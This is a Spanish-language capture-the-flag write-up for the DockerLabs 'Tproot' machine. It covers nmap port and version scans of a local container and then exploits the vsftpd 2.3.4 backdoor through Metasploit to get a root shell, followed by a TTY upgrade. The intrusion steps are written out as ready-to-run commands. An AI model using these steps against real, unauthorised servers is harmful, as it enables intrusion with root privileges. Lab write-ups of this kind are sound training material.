 #Maquina Tproot
----

Desplegamos la maquina Tproot de dockerlabs.

![image](https://github.com/user-attachments/assets/af103254-7ba7-4ac4-9622-873b8d05a414)


---- 

## Escaneo
Primero hacemos un escaneo de todos los puertos para ver los que están abiertos.

```bash
nmap -p- --open --min-rate 5000 -n -Pn 172.17.0.2 -vvv -oN allPorts.txt
```

- `-p-`: Indicamos que vas a escanear todo el rango de puertos
- `--open`: Indicamos que te muestre solo los puertos que estén abiertos.
- `--min-rate 5000`: Le indicamos a nmap que envie 5000 paquetes por segundo en el escaneo.
- `-n`: Quitamos la resolución DNS del escaneo.
- `-Pn`: Desactivamos la fase de host discobery, porque sabemos que el host esta activo y ademas nos da un poco mas de velocidad en el escaneo.
- `-vvv`: Añadimos verbose.
- `-oN`: Indicamos que nos saque un output del escaneo en formato nmap al archivo allPorts.txt.

![image](https://github.com/user-attachments/assets/beb43990-f502-4992-8ebe-a4b31a0147eb)


Tenemos abiertos los puertos 21 y 80. Vamos a hacer un escaneo de versiones de los servicios que corren en esos puertos.

```bash
nmap -p21,80 -sCV 172.17.0.2 -oN targeted.txt
```

- `-p21,80`: Indicamos que el escaneo se haga solo sobre esos 2 puertos.
- `-sCV`: Indicamos que queremos hacer un escaneo de las versiones que tienen los servicios corriendo en esos puertos y lanza unos scripts de reconocimiento que nos daran un poco mas de informacion sobre el servicio.

![image](https://github.com/user-attachments/assets/1b80d4e8-512e-4dd9-893e-d6e94d0c6ed0)

El escaneo nos muestra las versiones de los servicios que corren por los puertos y podemos ver que tenemos una version vulnerable del servicio ftp por el puerto 21 (vsftpd 2.3.4).

----

## Intrusion

Para la fase de intrusion vamos a usar metasploit.

```bash
msfconsole
```

Una vez en la consola de metasploit buscamos un exploit para la version de ftp del puerto 21 con el comando `search`.

```bash
search vsftpd 2.3.4
```

![image](https://github.com/user-attachments/assets/126b091b-55cf-47ef-9766-0b7b2428c15a)

Vemos que tenemos un exploit para esta version que nos dara un backdor, asique lo seleccionamos y lo configuramos.

```bash
use 0
show options
```

![image](https://github.com/user-attachments/assets/48e0c41b-c8e3-4234-8a29-388758534747)

Nos pide el Remote host. Se lo indicamos con el comando `set` y ya podriamos lanzar el exploit.

```bash
set RHOST 172.17.0.2
```

![image](https://github.com/user-attachments/assets/a195a8cd-a081-417f-afbc-dde02a86854d)

```bash
exploit
```

![image](https://github.com/user-attachments/assets/773bf394-c356-4741-b422-fd9892d1bf38)

Ya tendriamos acceso a la maquina victima con privilegios de root, pero se ve un poco mal y es complicado moverse con la terminal de esa manera. Vamos a hacer un tratamiento de la TTY para añadir un prompt y poder manejarnos mejor.

```bash
script /dev/null -c bash
export TERM=xterm
```

![image](https://github.com/user-attachments/assets/c0419483-20ba-4f19-80c4-e9e955e38e52)

